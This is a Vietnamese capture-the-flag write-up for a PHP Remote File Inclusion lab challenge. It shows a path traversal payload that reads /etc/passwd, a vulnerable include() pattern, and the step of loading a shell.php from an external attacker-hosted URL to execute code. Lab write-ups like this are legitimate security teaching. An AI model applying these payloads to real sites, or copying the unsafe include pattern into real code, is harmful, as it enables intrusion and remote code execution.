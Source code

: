 # Remote File Inclusion

**Tên challenge:**  Remote File Inclusion

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/remote-file-inclusion)

**Tác giả challenge:** COLLECTOR

**Mục tiêu challenge:** phpinfo() Outputs information about PHP's configuration. Let's find phpinfo file, then create a Webshell for reading the flag file on the system.

Flag Location: `/flag.txt`

Flag Format: `CHH{XXX}`

Credits: `MCTF`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy có các mục khi truy cập vào trang web như sau:
	
![alt text](./images/image.png)

Khi thử click 1 trong các mục thì trang Web sẽ in ra nội dung dựa theo lựa chọn mà ta click. Đồng thời, URL của Website cũng sẽ xuất hiện parameter `file` như sau:

![alt text](./images/image-1.png)

Nhìn vào parameter `file`, ta có thể liên tưởng đến các kịch bản lỗi bảo mật liên quan như Path Traversal, Local File Inclusion,...

**B2:** Ta thử payload `../../../../../../../../../../../etc/passwd`, để xem Website có trả về nội dung file `passwd` không

![alt text](./images/image-2.png)

=> Ta có thể đọc file `/etc/passwd` thông qua lỗ hổng Local File Inclusion của Website

**B3:** Ta tiếp tục sửa payload thành `../../../../../../../../../../../flag.txt`

Tuy nhiên, chả có gì xảy ra cả. Xem ra, tên file thật sự của Flag không phải là `flag.txt`, và bây giờ làm sao để ta tìm được tên thật của file Flag ?

* **Trả lời:** Ta có thể phỏng đoán đoạn code xử lý trả về file bị lỗi `Local File Inclusion` có dạng sau:
```
$test = $_REQUEST["file"];
Include($test);
```
Vậy thì sẽ ra sao nếu ta Upload 1 file có dạng `shell.php` lên Website Attacker của mình. Rồi ở parameter `file` thì ta sẽ đưa đường dẫn URL đến file `shell.php`. Liệu Website có thực thi nội dung trong file đó không ?

**B3:** Ta tạo 1 file `shell.php` với nội dung:
```
<?php phpinfo();? ?>
```
**B4:** Ta Upload file đó lên Web bên ngoài của ta

**B5:** Ta đổi giá trị của parameter `file` thành: `https://web_cua_ta.com/shell.php`

![alt text](./images/image-3.png)

=> Vậy là ta đã thực thi thành công code trên Website.

Tiếp theo, ta chỉ cần dùng Command để lấy Flag thôi.